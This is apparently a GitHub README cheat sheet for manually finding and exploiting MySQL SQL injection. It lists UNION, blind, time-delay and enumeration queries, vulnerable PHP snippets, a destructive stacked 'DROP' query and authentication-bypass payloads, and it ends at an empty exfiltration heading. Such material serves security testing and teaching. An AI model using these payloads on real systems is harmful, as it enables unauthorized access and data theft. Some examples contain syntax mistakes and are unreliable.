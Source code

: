 # MySQL-SQL-Injection-Cheatsheet
Tips for manually detect &amp; exploit SQL injection Vulnerability : MySQL

# Comment in MySQL <br>
1.  \# <br>
2.  -- (After double dash put space) <br>
3.  /\*\*/  <br>

Ex: SELECT * from users/**/WHERE username='rk' AND password='123'; /*SQL keyword is case insansitive */  <br>
 
# MySQL LIMIT Clause  <br>
1. The LIMIT clause is used to specify the number of records to return.  <br>

Ex: SELECT * FROM users where username='' or 1=1 LIMIT 1; /*Without limit keyword it will return multiple result. it will help in auth bypass*/  <br>
  
# MySQL UNION Operator  <br>
1. The UNION operator is used to combine the result-set of two or more SELECT statements.  <br>
    a. Every SELECT statement within UNION must have the same number of columns.  <br>
    b. The columns must also have similar data types.  <br>
    c. The columns in every SELECT statement must also be in the same order.  <br>
 
 Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password'; /* Select from same table */  <br>
 
 Ex 2: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password' FROM hack.users;  /* Select from different DB and table */  <br>
  
# MYSQL Stack query <br>
1. MySQL does not support stack query with PHP, ASP.NET, Java <br>
Ex: SELECT * FROM products WHERE id = 1; DROP users-- /* stack query example */ <br>
  
# Substring  <br>
1. SUBSTRING('MySQL', 3, 2)  <br>

# String without quote(' or ") <br>
1. using CONCAT function <br>
Ex: SELECT CONCAT(CHAR(77),CHAR(89),CHAR(83),CHAR(81),CHAR(76)); /* return MYSQL string */  <br>

2. using hex value <br>
Ex: SELECT 0x4d7953514c;  /* return MYSQL string */  <br>

# Database version <br>
1. SELECT @@version <br>

# Current Database <br>
Ex: SELECT database(); <br>

# Current Database User <br>
Ex 1: SELECT user(); <br>
Ex 2:SELECT system_user(); <br>

# List DBA account <br>
Ex: SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; <br>

# Database contents <br>
1. Selecting all the tables in MySQL along with DB <br>
Ex: SELECT * FROM information_schema.tables; <br>

2. electing all the columns in perticular table <br>
Ex: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE_NAME'; <br>
# Order by <br>
1. The ORDER BY keyword is used to sort the result-set in ascending or descending order. But these keywords are used to identify no of columns present in table. <br>
Ex: SELECT * FROM Customers ORDER by 7; /* if columns are less than 7 in the table. query gives SQL error. Check on less than 7 values until error resolved.  */ <br>

# Time Delay <br>
Ex 1: SELECT sleep(10)  /* Sleep for 10 sec */ <br>

Ex 2: SELECT IF(CONDITION-HERE,sleep(10),'a'  /* Sleep for 10 sec if codition is True*/ <br>

# Detecting SQL Injection <br>
Case 1: When source code is available. <br>

Try to find out dynamic query where user inputs are concatenating to SQL query without/partial sanitizing user's input. Some time developer does mistake to concatenate user input into query while using parameterize SQL query. <br>
Ex 1: <br>
$username = $_POST["username"]; <br>
$password = $_POST["password"]; <br>
$sql="SELECT * FROM users WHERE username = '$username' AND password = '$password'"; <br>
$result = mysql_query($sql, $link); <br>
<br>

Ex 2: parameterized query <br>
$firstname = $_POST["firstname"]; <br>
$lastname = $_POST["lastname"]; <br>
$email = $_POST["email"]; <br>

$stmt = $conn->prepare("INSERT INTO MyGuests (firstname, lastname, email) <br>
VALUES ($firstname, :lastname, :email)"); /* Userinput "firstname" is directly concatenated into quey. So snippet is vulnerable to SQL Injection */  <br>
$stmt->bindParam(':lastname', $lastname); <br>
$stmt->bindParam(':email', $email); <br>
<br>

Case 2: Black box error based SQL Injection <br>
1. single quote('), double quote("), and(&), semicolon(;), double dash(--) any character that break the SQL syntax. SQL server return Syntex error to end user. <br>
Ex : $sql="SELECT * FROM users WHERE username = ''' AND password = '$password'";  /* gives syntax error */ <br>
  
Case 3. Blind SQL Injection (Conditional) <br>
1. App return data based on True/False condition <br>
Ex 1: "SELECT * FROM books WHERE bookid = -2 or 2>1# <br>

Ex 2: "SELECT * FROM books WHERE bookid = -2 or 2>1 LIMIT 1# /*Return 1st result only*/ <br>
<br>

Case 4: Blind SQL Injection (Time delay) <br>
1. App return data after delaying certain time <br>
Ex 1: "SELECT * FROM books WHERE bookid = -2 or sleep(10)#; <br>

2. Condition time delay <br>
Ex 2. SELECT IF(1=1,sleep(10),'a'); <br>

# Authentication Bypass <br>
1. admin' #  /*when user is admin */ <br>
2. admin' -- /*space after double dash*/ <br>
3. admin' or 1=1 # <br>
4. admin' and 1=1 # <br>
5. ' or 2>1 #  /*when username is not known*/ <br>
6. " or 2<1 #   /*When user input is quoted under double dash*/ <br>
7. ' or 1=1 LIMIT 1 # <br>
8. ' | 1=1 # <br>
9. ' & 2=2 # <br>

# Data Exfiltration
Case 1: 
    

